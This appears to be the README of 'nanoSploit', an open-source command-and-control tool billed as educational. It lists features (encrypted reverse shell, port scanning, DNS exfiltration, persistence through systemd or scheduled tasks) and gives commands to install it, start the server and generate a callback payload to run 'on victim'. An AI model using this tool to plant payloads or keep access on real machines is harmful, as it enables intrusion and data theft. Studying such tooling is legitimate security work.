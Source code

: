 # nanoSploit

Minimalist C2 server for educational purpose.

## Features

### Principals

- Encrypted reverse shell
  - With `cd` support
- Port scanner
  - Single host and network scan
  - Banner grabbing
- DNS ex-filtration
  - Used for download/upload
- Persistence
  - Linux -> Systemd service -> every 3 seconds
  - Windows -> Scheduled task -> every minute

### Bonus

- Multi-session
  - Metasploit-like
- Upload/download files
  - Using DNS ex-filtration
- Cross-platform
- No external modules in payload (no need to `pip install` something)

## Install

With pip:
```shell
pip install git+https://github.com/nanosploit/nanosploit.git
```

## Usage

### Server

Run the program terminal :
```shell
python -m nanosploit
```

### Client

Export a payload to execute on victim :
```shell
python -m nanosploit generate --path payload --host 127.0.0.1 --port 5353
./payload # Execute on remote machine
```

Run the program for debugging :
```shell
python -m nanosploit client
```
